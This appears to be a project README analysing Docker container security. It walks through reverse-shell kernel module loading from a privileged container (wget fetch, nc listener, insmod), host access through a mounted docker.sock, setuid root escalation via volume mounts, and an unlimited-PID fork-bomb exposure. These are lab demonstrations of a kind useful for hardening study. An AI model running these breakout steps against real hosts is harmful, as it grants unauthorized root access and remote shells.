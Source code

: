 # Security Analysis of Containerizd Applications

> A security analysis conducted on containerised applications in virtualised environments.

## Introduction

Containerization is defined as a form of operating system virtualization, through which applications are run in isolated user spaces called containers, all using the same shared operating system (OS).The concept of Containerization is used in many fields such as DevOps, Microservice Architecture, Web servers and Database Sharding. This makes security a major concern.

This aim for this project is to conduct a Security Analysis of Containerized Applications in Virtualized Environments to check for vulnerabilities in the host Operating System by using several methods such as inspecting the Network bridge between the Virtualized and Host Operating System, Figuring Kernel Level Virtualization Errors, Creating a Malicious Application and Test a proof of concept, if the Host OS can be accessed from a container that is running in a virtualized environment.

 > Containerization Tool used for this Analysis is Docker

## Attack Vectors

### 1. Modifying Kernel Space using --privileged flag

> This attack is to simulate Container Breakout and the process through which an attacker who has gained access of a Container running on a System can get access to a system can load a kernel module on to the Host Kernel Space through the Container to get a reverse shell session of the Host file System mounted on the root directory.

**Steps**

1. Change the directory to *reverseshell* and run the command *make* to build the Kernel File.
   ```bash
   cd reverseshell
   make
   ```
2. Start a Python Server in the *reverseshell* directory using the command:
   ```bash
   python3 -m http.server
   ```
3. On a New Terminal Tab Run a Base container (here alpine) with a privileged flag and start a shell session in it using the command:
   ```bash
   docker run --rm --privileged -it alpine sh
   ```
4. Fetch the Kernel File from the server started in Step 2 using the command 
   ```bash
   wget http://172.17.0.1:8000/reverseshell_module.ko
   ```
5. Give Executable Permission to the Kernel File inside the Container using the command 
   ```bash
   chmod +x reverseshell_module.ko
   ```
6. On a New Terminal Start a Port listener on Port number 4444 as specified in the Kernel Module C Program using the command: 
   ```bash
   nc -nlvp 4444
   ```
7. Inside the Container shell of Step 3 write the Kernel Module into the Kernel Space using the command:
   ```bash
   insmod reverseshell_module.ko
   ```
**Result**

> Upon following the above a Shell session of the Host File System mounted on the root directory is received on the Port listener. This even provides privileges to access, read and modify files through the reverse shell session. This can be classified as a high level vulnerability.

---

### 2. Container Breakout through Docker Socket

> This attack is to simulate how container breakout can be performed using docker.sock mount through which an attacker that has access to the Container can start another Container mounted on the host Root directory to access the Host file system.

**Step**

1. Start a Docker Container mounted on the Docker socket file at `/var/run/docker.sock` using the command:
   ```bash
   docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock alpine sh
   ```
2. Check for the docker.sock file in the Container File System through the command:
   ```bash
   ls /var/run/docker.sock
   ```
3. Update apk and install docker engine on the Container file system to start another container on the Host from inside a Container namespace through the commands:
   ```bash
   apk update
   apk add -U docker
   ```
4. Start a new container by explicitly defining the docker socket extension using the command:
   ```bash
   docker -H unix:///var/run/docker.sock run -it -v /:/test:ro -t alpine sh
   ```

**Result**

> The container started from inside the namespace of another container mounted on the root directory of the host and stored in the test directory of the container file system provided a medium to access the host file system. It is a Read Only File System so it can be classified as a Low graded High Level Vulnerability as it has access to host file system data but, cannot make any modifications.

---

### 3. Privilege Escalation using volume mounts

> Docker daemon requires root privileges to perform some if it’s operations so it runs with root privileges. If a user is part of the Docker Group it is possible for them to elevate their privileges to root. This can be done through Docker volumes and setuid binaries. Docker volumes are a way to provide persistent storage to Docker Containers. When a binary is created and a setuid bit is set on it, it continues to run as root even when a low privileged user uses it.

**Steps**

1. Change the directory to privesc and build the Docker image with the command:
   ```bash
   docker build --rm -t privesc .
   ```
2. Build the Docker container by mounting the */tmp* directory of the host to the */shared* directory of the Container and executing the shellscript.sh using the command:
   ```bash
   docker run -v /tmp:/shared/ privesc:latest /bin/sh shellscript.sh
   ```
3. Navigate to the /tmp directory and execute the shell which gives us a bash shell session with root privileges

**Result**

> The reason it will be possible to gain root privileges is because a volume was mounted from the host to the container and containers run with root privileges by default. The shell executable set the user id to 0 and gave us a bash shell so essentially we setuid binary of a volume which appears as the setuid binary of the host.

---

### 4. Control Group Vulnerability

> Control groups are a feature of the Linux Kernel. It allows to limit the access processes and containers have to system resources such as CPU, RAM, IOPS and network. Here our concern is to limit the PIDs to prevent fork bomb attack.

**Steps**

1. Start a base alpine container using the command:
   ```bash
   docker run -itd --name=cgroups alpine
   ```
2. Navigate to the directory names `/sys/fs/cgroup/pids/docker/` followed by the SHA key returned in Step 1
3.  Examine the contents of the pids.max file

**Result**

> Here it is set to max which means we can fork unlimited processes from this container which can be catastrophic if the container is attacked and the attacker decides to run a fork bomb attack to exhaust all System resources which might result in System failure, which can be a financial disaster in Multinational Companies providing services.
